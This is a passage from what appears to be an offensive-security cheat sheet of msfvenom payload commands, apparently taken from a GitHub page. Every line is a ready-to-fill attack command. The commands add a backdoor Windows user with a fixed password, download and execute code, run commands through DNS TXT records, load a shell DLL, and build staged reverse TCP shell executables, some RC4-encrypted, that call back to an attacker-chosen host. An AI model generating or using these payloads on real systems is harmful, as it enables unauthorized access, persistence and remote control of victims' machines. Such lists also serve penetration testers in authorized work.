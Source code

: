 ##### 2.4.3.2 - Add User

- **Windows**

`$ msfvenom -p cmd/windows/powershell/adduser user=sysadmin pass=Password1234! wmic=[true | false] custom=<group_name> -f raw`

`$ msfvenom -p cmd/windows/powershell/dns_txt_query_exec -f raw`

##### 2.4.3.3 - Download and Execute

- **Windows**

`$ msfvenom -p cmd/windows/powershell/download_exec`

##### 2.4.3.4 - DNS TXT Query Exec

- **Windows**

`$ msfvenom -p cmd/windows/powershell/dns_txt_query_exec dnszone=<domain.com>`

##### 2.4.3.5 - Execute

- **Windows**

`$ msfvenom -p cmd/windows/powershell/exec cmd=<commands>`

`$ msfvenom -p cmd/windows/powershell/loadlibrary dll=C:\\path\\to\\shell.dll exitfunc=<seh | thread | process | none>`

`$ msfvenom -p cmd/windows/powershell/messagebox icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> text="<text>" title="<title>" exitfunc=<seh | thread | process | none>`

`$ msfvenom -p cmd/windows/powershell/x64/exec cmd=<commands>`

`$ msfvenom -p cmd/windows/powershell/x64/loadlibrary dll=C:\\path\\to\\shell.dll exitfunc=<seh | thread | process | none>`

`$ msfvenom -p cmd/windows/powershell/x64/messagebox icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> text="<text>" title="<title>" exitfunc=<seh | thread | process | none>`

##### 2.4.3.6 - Text-To-Speech

- **Windows**

`$ msfvenom -p cmd/windows/powershell/speak_pwned`

### 2.5 - Regular Payloads

#### 2.5.1 - Reverse Shells

##### 2.5.1.1 - Staged Windows Reverse Shells

- **x86 (32-bit) Payloads**

`$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x86.exe`

`$ msfvenom -p windows/shell/reverse_tcp_rc4 lhost=<IP> lport=<PORT> rc4password="<KEY>" -f exe -o shell-enc-x86.exe`
